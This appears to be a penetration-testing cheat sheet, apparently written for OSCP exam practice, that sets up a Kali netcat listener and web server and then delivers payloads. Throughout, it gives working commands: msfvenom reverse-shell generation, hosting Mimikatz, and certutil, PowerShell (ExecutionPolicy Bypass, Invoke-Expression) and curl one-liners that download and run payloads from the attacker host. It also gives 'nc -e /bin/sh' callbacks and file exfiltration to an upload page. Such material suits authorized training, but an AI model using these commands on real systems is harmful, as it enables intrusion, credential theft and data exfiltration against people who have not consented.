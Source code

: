 # 1. Setup Kali for connections

## 1.1. Setup listener

```console
nc -nlvp 4444
```

- `-n` : numeric-only IP addresses, no DNS
- `-l` : listen mode, for inbound connects
- `-v` : verbose [use twice to be more verbose]
- `-p` : local port number (port numbers can be individual or ranges: lo-hi [inclusive])

## 1.2. Prepare payload transfer

Prepare files to web server root

☝️ Apache2 is already running with DocumentRoot at `/var/www/html`

If Kali isn't setup as web server, use `python3 -m http.server 80 &> /dev/null &` to run a web server endpoint, the web server root will be the `pwd` where the command was run

### Mimikatz:

```console
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe /var/www/html
```

### MSFVenom reverse shell TCP:

☝️ omit the `x64` to generate a x86 payload

Linux:

```console
msfvenom -p linux/x64/shell_reverse_tcp LHOST=kali.vx LPORT=4444 -f py -o /var/www/html/reverse.py
```

Windows:

```console
msfvenom -p windows/x64/shell_reverse_tcp LHOST=kali.vx LPORT=4444 -f exe -o /var/www/html/reverse.exe
```

### PowerShell-based reverse shell script:

Download the reverse shell scription:

```console
curl -O https://raw.githubusercontent.com/joetanx/oscp/main/reverse.ps1
```

Edit the address and port:

```console
sed -i 's/<ADDRESS>/kali.vx/' reverse.ps1
sed -i 's/<PORT>/4444/' reverse.ps1
```

# 2. Execute payloads on Windows

## 2.1. Execute Windows reverse shell TCP payload

|   |   |
|---|---|
|certutil|`certutil.exe /urlcache /f /split http://kali.vx/reverse.exe %TEMP%\reverse.exe && %TEMP%\reverse.exe`|
|PowerShell|`powershell.exe -NoProfile -ExecutionPolicy Bypass -Command (New-Object System.Net.WebClient).DownloadFile('http://kali.vx/reverse.exe','%TEMP%\reverse.exe'); Start-Process %TEMP%\reverse.exe`|

## 2.2. Execute PowerShell-based reverse shell script

☝️ `Invoke-Expression` is useful if you don't want the payload to touch the disk, but it works for Powershell Scripts only

(i.e. `DownloadFile` of the reverse shell executable and try to run it with `Invoke-Expression` will not work)

```console
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command Invoke-Expression (New-Object System.Net.WebClient).DownloadString('http://kali.vx/reverse.ps1')
```

# 3. Execute payloads on Linux

## 3.1. Simply nc back (if netcat is installed on target machine)

```console
nc -nv 192.168.17.10 4444 -e /bin/sh
```

## 3.2. Execute Linux reverse shell TCP payload

```console
curl -O http://kali.vx/reverse.elf && chmod +x reverse.elf && ./reverse.elf
```

# 4. Uploading files to Kali

## 4.1. Setup upload page on web server

### Prepare uploads directory

```console
mkdir /var/www/html/uploads
chown www-data:www-data /var/www/html/uploads
```

☝️ apache2 runs as `www-data` user, it needs write permission on the uploads directory for uploads to succeed

### Prepare upload page

```console
curl -o /var/www/html/upload.php https://raw.githubusercontent.com/joetanx/oscp/main/upload.php
```

☝️ The name for the upload parameter is named as default of `file` to accommodate the PowerShell `UploadFile` method of `System.Net.WebClient` which will `POST` the file to this name

## 4.2. Uploading

|   |   |
|---|---|
|PowerShell|`powershell.exe -NoProfile -ExecutionPolicy Bypass -Command (New-Object System.Net.WebClient).UploadFile('http://kali.vx/upload.php','The Little Prince.jpg')`|
|cURL|`curl -H 'Content-Type:multipart/form-data' -X POST -F file=@"The Little Prince.jpg" -v http://kali.vx/upload.php`|
